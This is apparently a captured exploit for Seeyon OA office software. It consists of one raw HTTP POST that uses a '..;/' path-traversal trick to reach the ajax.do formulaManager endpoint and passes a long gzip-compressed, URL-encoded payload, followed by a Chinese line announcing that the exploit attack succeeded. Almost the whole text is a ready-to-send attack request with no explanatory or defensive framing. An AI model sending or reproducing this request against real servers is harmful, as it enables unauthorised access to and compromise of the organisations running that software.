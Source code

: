 `POST /seeyon/autoinstall.do.css/..;/ajax.do?method=ajaxAction&managerName=formulaManager&requestCompress=gzip HTTP/1.1 Host: xxx.xxx.xxx.xxx:7777 Connection: close Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 User-Agent: Opera/9.80 (Macintosh; Intel Mac OS X 10.6.8; U; fr) Presto/2.9.168 Version/11.52 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.9 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1 Sec-Fetch-Dest: document Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: JSESSIONID=7B6D8C106BD599DB0EF2F2E3B794A4FA; loginPageURL=; login\_locale=zh\_CN; Content-Type: application/x-www-form-urlencoded Content-Length: 8819 ​ managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00uTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh\_%C2%88%28\*%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14\_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%1D%C2%AD%C2%81%3C%26%C3%90%C3%89%C2%BCA%3FL%C2%93%C2%B2%C3%B3%C3%B0%13%C2%9E%C2%B9%C2%BB%C2%92%06%1E%C3%86%C2%B5%2F%3B1%C2%B9%C2%81YR%C2%B9%C3%9C%C2%98%C2%95%C2%96A%C3%A6%C2%8A%C3%82mKj%19%C2%8B%C2%9C%C2%A5%C3%8A%C2%82Y%5C%C2%AC%C2%B9%24%C2%80d%C2%9E%03%5E%C3%8F%C3%97D%29%5Cm%2C%1F%07%2F%C3%85Q%5CD%C2%B6%26%C3%B9%C2%90%C3%A8%15%C3%A0p%C3%A1%C2%86%2C%C3%9Ah%C3%83J%0A%C2%87%C3%8FN%C2%A4%5C%C2%B7DM%00%C3%91C%28b%C3%8E%C3%96%C2%84%C2%ABe%40%2C%C2%898%03%C3%A2%C2%B8%C2%825%3EYp%C2%96%26%0C%C3%A8%7B%C2%BAFq%C3%9A%C3%B0%C2%A6%C2%9F%5B%C3%BCJ%00K%C2%B5%C3%B8TFqmc%C2%93%C3%8BH\*va%C3%B9%0F%C3%A0\_%C2%BE%C3%99%C2%A2%1E%C2%BA%C3%A2%C2%A2%C2%B2L5q%C2%B9%C3%A1%C2%A3%24\*%C2%A9e\*7iq%C3%B4m3%60mC8%C2%83j2%C2%A3%3A7%C3%80%C2%96%C2%85e%C2%A8%18D%C2%99.%C3%8F%5B%C2%BD%C2%838%0E%28F%25%C2%89%C2%9B%C3%84%C3%A3%C2%95%01%C2%A0%C2%B4L%C3%A9-%3F%C2%B8Bc%C2%95%3A%C3%86%C3%86%C3%9Fse%00%C3%B8%C2%8DoW%01%C3%B2L%15K%C2%8B%0CZ%08%C2%8Fh%7C%2C4W%C2%B9%C2%B4l%C3%AD%C3%96D%C3%856%C3%81%C2%B9%7Dl%C2%B1eQJ7%C3%93%12%C2%ADI%C2%89%5D%02Ygz%1E%C2%9DL%C3%B6%C2%99%C3%A6%C2%B4%C3%8E%C3%BB%C3%996j%C2%BDU%40s%40%C3%B3w%C3%8F%5B%C2%A4%C2%84%C2%80%C3%A0%2B%14K%0Cg%C3%82%01.W%C2%89K%C2%80%C3%AF%C3%9CXd%1F%C3%B6%03%C3%BB%C2%B0%C2%A9%C2%B6%C2%86%C2%8D%C2%ADP%3Fo%0F%C3%92%C3%80B%C3%92%08p%C3%BA%C2%AD%C2%A9%01%12%C2%AE%C3%90T%0D%C3%8B%28%07%C2%B6%C3%A6%23%C2%A8I%C2%A9S%C2%9DG%7B%0E\_%C2%9D6%C3%86%C3%B1%1B%C2%BD%26%10%C3%839%C2%A6uU%03%C2%97%28X%C2%9E%C2%AE%26%C2%AA%C2%BEA%C3%B2%21%0B%C3%974%06%C3%87%C3%9C%C3%87%1BT%C3%A6%C2%B6%09%C3%BC%23%C2%A7%C2%87u%C2%AC%1A%C2%A7%0BG%7E%C2%82%C2%AD%C3%8A%C2%8F%3F%C3%BC%19%C3%99%C2%BF%C3%BE%C2%99%C3%88%C2%95%C2%84d%C2%AD%C2%91O%C3%AB%7C%C2%81%C3%8AO%C3%96o%C3%B8%C3%9Ay%C3%A4%12%C2%9D%C2%A7%C3%B5%C2%89%C2%A1%18%24%C2%A0j%C3%B4%C3%9A%C3%BA%C3%94z%C2%8D\_%C2%BF%C3%96F%C2%9E%C2%9E%C2%A9%1C%C3%84V%25%C2%9C%5D%C3%96%C2%A6%C3%B9X%C2%A4%C2%B2%28%60XMn%C3%90%18%C3%A6%C2%AE%C2%81o%C3%B4m%C2%BA%C3%97%C2%95%C2%85%12%C2%AAs%C2%9A%C3%97%C3%A2n%C2%977%C3%BD%C3%81%C2%A9x%1F%C3%A9%C3%84%C2%A6%C2%BD\*%2FW%18%C2%98%3A%06%C3%BC%3E%C2%B79%C2%9D%3D%12%C3%BD%C3%AD%C2%8F%1C%C3%944%C2%9D%5E%C2%97%1Cc%C3%AAgBc%C2%A0%C3%B1%C3%83%C2%95%1B%29%C2%ACe%08%21%C2%8D%C2%8F%C3%BA%C2%A1%C2%97%C3%90X%C2%A4%C2%A0%0A%C2%9A%C2%9E%C3%9Es%C3%A3%1C%C2%8A%C3%BA%10%C3%92%C3%9A%C3%AE%C2%A6%C3%A3%C2%A6%27%01%C2%A7T%C2%8E9a%5DQgw%C3%A1%C2%B5h%C3%AB%C2%BA\*%5C%7E%C3%BF%C3%B8%3E%C3%ADL%C2%9AG%7D%C2%82R%C3%90%C2%9F%C2%BCh%C3%B3o%C3%83%C2%99%07bH%07%1E%C3%9E%C3%AFv%C3%96%3FW%C3%AA%C3%BDw%C2%AA%5B%C2%B3%3B%C3%93%C3%9A%C2%B6L%C3%AF%0E%C3%98o%C3%AFI%7E%3AQ%C2%80f%09%3C%7C%C3%A9%1C%0F%C2%8B%C2%AF%C3%8F%1F%C2%97%C3%84%C3%87%7D%C3%93o%18%1C%C3%B5%3E%C2%82%C3%BF%C2%9F.%C3%80q%C3%AAQ%C3%87%7E%7C%C2%AF%C3%B7%21%25%C2%A0wb%C3%92%C3%8C%C3%89%10%60%C3%8A%C2%B2%C3%AC%3D%C2%BCv%7F%C3%90%25I%17%C3%A5k%7Dg%C2%97%C3%9C%C3%AB%C3%BE%C3%BD%2FheA%C3%A4\_%05%00%00`

exp攻击成功!
